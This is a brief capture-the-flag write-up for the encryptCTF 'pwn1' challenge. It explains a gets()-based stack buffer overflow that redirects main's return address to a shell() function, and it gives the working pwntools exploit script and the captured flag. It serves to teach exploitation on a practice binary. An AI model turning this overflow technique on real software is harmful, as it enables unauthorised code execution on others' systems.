 # 🔑 Write-Up

We have to overflow the buffer named buffer and overwrite `main()` return address to point to the `shell()` function entry point in order to pop a shell. `gets()` is used for the input. Remembrer that `gets` doesn't check the buffer bounds.

```python
from pwn import *

context.binary = "./pwn1"

p = process()
p.sendline(b"A" * 128 + b"a" * 12 + p32(context.binary.functions["shell"].address))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag

```plain
encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}
```